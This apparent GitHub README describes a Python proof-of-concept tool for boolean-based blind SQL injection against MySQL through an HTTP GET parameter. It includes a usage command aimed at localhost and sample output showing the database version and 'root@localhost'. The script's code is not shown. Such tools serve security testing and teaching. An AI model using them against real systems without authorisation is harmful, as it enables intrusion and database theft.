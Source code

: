 # mysql_bb
Boolean-based blind SQL injection Proof of Concept for MySQL.

This script attempts to retrieve MySQL version and current username by making boolean-based blind injection into supplied HTTP GET URI.
## Usage example
```bash
python3 mysql_bb_poc.py http://localhost?param=
(+) Retrieving database version....
5.5.47-0+deb8u1-log
(+) Retrieving username....
root@localhost
(+) done!

```
